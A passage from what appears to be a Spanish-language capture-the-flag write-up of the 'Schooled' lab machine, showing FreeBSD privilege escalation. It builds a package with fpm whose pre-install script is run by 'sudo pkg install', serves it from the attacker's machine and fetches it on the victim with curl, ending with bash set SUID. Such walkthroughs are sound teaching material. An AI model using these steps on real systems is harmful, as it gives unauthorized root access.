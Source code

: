 ![comandoSUID](https://github.com/0xLJoseb/Apuntes/blob/main/Schooled%20Writeup/Content/comandoSUID.PNG)

y luego procedemos a ejecutar:

```bash
fpm -n x -s dir -t freebsd -a all --before-install $TF/x.sh $TF
```

Y se nos creara en nuestro directorio de trabajo un archivo ".txz". Vamos a subir este archivo a la maquina victima y procederemos a instalarlo:

`[Maquina Local]`
```bash
python3 -m http.server
```
`[Maquina Victima]`
`[Ojo, hacerlo en el directorio /tmp]`
```bash
curl -o x-1.0.txz http://[OurIP]/[File]
```
Una vez con el ".txz" en la maquina victima, segun **gtfobins** tendriamos que ejecutar:

```bash
sudo pkg install -y --no-repo-update ./x-1.0.txz
```

![SUIDaccomp](https://github.com/0xLJoseb/Apuntes/blob/main/Schooled%20Writeup/Content/SUIDaccomp.PNG)

"/usr/local/bin/bash" ahora cuenta con permisos **SUID**

![bashp](https://github.com/0xLJoseb/Apuntes/blob/main/Schooled%20Writeup/Content/bashp.PNG)
